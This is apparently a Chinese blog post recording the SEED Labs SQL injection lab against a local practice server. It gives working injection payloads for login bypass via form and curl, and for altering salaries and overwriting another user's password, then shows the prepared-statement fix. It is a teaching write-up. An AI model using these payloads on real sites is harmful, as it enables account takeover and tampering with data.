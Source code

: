 ```yaml
---
layout: post
title:  "SQL injection"
date:   2020-11-01 00:00:00 +0800
categories: 实验
tags: seedlab sql
comments: true
mathjax: true
copyrights: 原创
---
```


本文为 [SEED Labs 2.0 - SQL Injection Attack Lab](https://seedsecuritylabs.org/Labs_20.04/Web/Web_SQL_Injection/) 的实验记录。

## 实验原理

SQL注入攻击通过构建特殊的输入作为参数传入Web应用程序，而这些输入大都是SQL语法里的一些组合，通过执行SQL语句进而执行攻击者所要的操作，它目前是黑客对数据库进行攻击的最常用手段之一。

## Task 1: Get Familiar with SQL Statements

启动 docker

```shell
dcbuild
dcup
```

然后进入 mysql 程序

```shell
dockps
docksh **
mysql -u root -p dees
```

> After running the commands above, you need to use a SQL command to print all the profile information of the employee Alice.

```mysql
use sqllab_users;
show tables;
desc credential;
select * from credential where Name='Alice'
```

<img src="/assets/post/images/sql1.png" alt="sql1" style="zoom:50%;" />

## Task 2: SQL Injection Attack on SELECT Statement

### Task 2.1: SQL Injection Attack from webpage

打开 [seed-server.com](http://www.seed-server.com/)

观察 unsafe home.php，看到里面有如下判断

```php
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
        nickname, Password
        FROM credential
        WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
```

我们只需要把判断 Password 的部分屏蔽即可

```plaintext
admin';#
```

<img src="/assets/post/images/sql2.png" alt="sql2" style="zoom:50%;" />

### Task 2.2: SQL Injection Attack from command line

转换一下 url 编码即可

```shell
curl 'www.seed-server.com/unsafe_home.php?username=%27%3b%23'
```

得到

<img src="/assets/post/images/sql3.png" alt="sql3" style="zoom:50%;" />

看到已经显示了所有用户信息

### Task 2.3: Append a new SQL statement

注入

```plain text
Alice'; update credential set name=A where ID=1;#
```

可以看到注入不成功

<img src="/assets/post/images/sql4.png" alt="sql4" style="zoom:67%;" />

## Task 3: SQL Injection Attack on UPDATE Statement

### Task 3.1: Modify your own salary

进入 Alice 修改个人资料的页面

观察 unsafe edit backend.php，看到有如下判断

```php
$hashed_pwd = sha1($input_pwd);
$sql = "UPDATE credential SET
        nickname=’$input_nickname’,
        email=’$input_email’,
        address=’$input_address’,
        Password=’$hashed_pwd’,
        PhoneNumber=’$input_phonenumber’
        WHERE ID=$id;";
$conn->query($sql);
```

注入

```plaintext
',salary='30000' where ID=1;#
```

<img src="/assets/post/images/sql5.png" alt="sql5" style="zoom: 50%;" />

### Task 3.2: Modify other people’s alary

这个和上面的几乎一模一样，比如我们把 Boby 的薪水改成 114514

```plaintext
',salary='114514' where ID=2;#
```

<img src="/assets/post/images/sql6.png" alt="sql6" style="zoom:50%;" />

看到已经改掉了

<img src="/assets/post/images/sql7.png" alt="sql7" style="zoom:50%;" />

### Task 3.3: Modify other people’s password

查看代码，看到密码采用的是 sha1，我们随便找个在线转换网站转换一下就好了。

<img src="/assets/post/images/sql8.png" alt="sql8" style="zoom: 67%;" />

然后注入

```plaintext
',Password='1f82c942befda29b6ed487a51da199f78fce7f05' where ID=1;#
```

<img src="/assets/post/images/sql9.png" alt="sql9" style="zoom:50%;" />

然后现在可以用密码 `888888` 成功登录 Alice 账号。

## Task 4: Countermeasure — Prepared Statement

登录 [seed-server.com/defense](http://www.seed-server.com/defense/)

这里我们需要将参数与查询分离。修改 unsafe.php，做如下改动

```php
$stmt = $conn->prepare("SELECT id, name, eid, salary, ssn
                        FROM credential
                        WHERE name = ? and Password = ? ");
$stmt->bind_param("ss", $input_uname, $hashed_pwd);
$stmt->execute();
$stmt->bind_result($id, $name, $eid, $salary, $ssn);
$stmt->fetch();
```

<img src="/assets/post/images/sql10.png" alt="sql10" style="zoom:50%;" />

可以看到，攻击失败了

<img src="/assets/post/images/sql11.png" alt="sql11" style="zoom:50%;" />

## 实验总结

实验属于最简单的 SQL injection。主要的收获在于最后一个 Task，以前只知道怎么注入，很少研究过怎么防御。
